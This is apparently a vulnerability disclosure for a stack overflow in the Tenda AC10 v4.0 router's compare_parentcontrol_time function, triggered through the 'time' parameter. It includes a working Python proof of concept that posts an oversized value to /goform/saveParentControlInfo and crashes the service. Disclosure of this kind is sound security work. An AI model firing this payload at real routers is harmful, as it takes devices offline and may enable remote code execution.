

# Tenda Router Vulnerability on compare_parentcontrol_time function

> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.13 
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 V16.03.10.13 were discovered to contain a stack overflow via the `time` parameter in the `compare_parentcontrol_time` function.

## Vulnerability Details

In function  `compare_parentcontrol_time`  line 7, it reads in a user-provided parameter `time`, and the variable is passed to the `sscanf` function without any length check, which may overflow the stack-based buffer `v3` and `v4`. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.



## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```
import requests

ip = '192.168.0.1'
headers = {
    'Host': ip,
    'Accept': '*/*',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Connection': 'close',
}
time = "1"*500 + "-" + "2"*500
data = {
    'deviceId': '10:11:11:11:11:15',
    'deviceName': 'deviceNAME5',
    'enable': '1',
    'time': time,
    'url_enable': '1',
    'urls': 'www.baidu.com,www.google.com',
    'day': '1,1,1,1,1,1,1',
    'limit_type': '0',
}

response = requests.post(
    f'http://{ip}/goform/saveParentControlInfo',
    headers=headers,
    data=data,
    verify=False,
)
```


